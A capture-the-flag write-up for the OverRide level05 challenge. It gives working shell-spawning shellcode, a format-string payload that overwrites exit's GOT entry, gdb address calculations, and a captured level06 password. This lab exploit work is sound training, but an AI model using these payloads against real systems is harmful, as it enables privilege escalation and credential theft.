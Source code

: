 # level05

On the [gdb writeup](gdbwriteup.md), we found that there is an exit at the end of the program and that we're writing on the 10th stack argument

So we will try to override the exit function with the address of the function that we want to execute, which is our shellcode

```bash 
level05@OverRide:~$ export SHELLCODE=$(python -c "print '\x90' * 20 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")
```

So we will try to produce an exploit:
```bash
python -c "print('\x80\x49\x7\xe0'[::-1] + '%4294957231x$10')" | ./level05
```
Not working, we will need to split the address in two parts

```bash
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] +  '%<1st decimal value>x%10\$n' + '%<2nd decimal value>x%11\$n')" | ./level05
```

To understand how to calculate the decimal values there is different steps

- First, we will find the address of our shellcode 
```asm
level05@OverRide:~$ gdb ./level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
(gdb) x/200x $esp
0xffffd8a0:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8b0:     0xdb31c031      0x80cd06b0      0x742f6853      0x2f687974
```

We can see that the address of our shellcode is 0xffffd8b0

- Then, we will split the address in two parts
```asm
(gdb) print 0xd8b0
$2 = 55472
(gdb) print 0xd8b0 - 8
$3 = 55464
(gdb) print 0xffff
$4 = 65535
(gdb) print 0xffff - (0xd8b0 - 8) - 8
$5 = 10063
```

So our first decimal value will be 55464 and our second decimal value will be 10063

```bash
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] +  '%55464x%10\$n' + '%10063x%11\$n')" | ./level05

$ whoami
level06
$ cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

